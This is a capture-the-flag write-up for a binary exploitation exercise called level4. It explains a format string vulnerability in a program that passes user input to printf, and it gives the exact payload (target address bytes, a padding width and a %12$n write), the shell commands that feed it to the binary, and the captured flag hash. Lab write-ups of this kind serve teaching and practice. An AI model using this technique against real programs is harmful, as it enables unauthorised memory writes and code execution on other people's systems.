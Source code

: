 solution level4:

-> this program is practically equivalent to the previous one, apart from a few differences

-> our main calls the function "n", which allocates space on the stack and fills a buffer with fgets

-> "n" then calls the function "p", which simply calls printf with the buffer as argument

-> next, "n" compares the value of global variable m with the integer 16930116. If m is equal to that number, "n" calls the method system to display the level4 flag, otherwise we leave the function

-> we can still exploit the format string vulnerability with the %n modifier, but we cannot write 16930116 characters in our buffer since we are limited by a size of 512 bytes

-> fortunately we don't have to write all the characters we can simply set a number of repetitions
so our final buffer contains:
- the address of m (size is 4 bytes) : 0x08049810 -> \x10\x98\x04\x08
- the number of repetitions : 16930116 - 4 -> %16930112x
- our %n modifier with the correct argument index -> %12$n

> scp -P 2222 Ressources/run.sh level4@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/buff | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

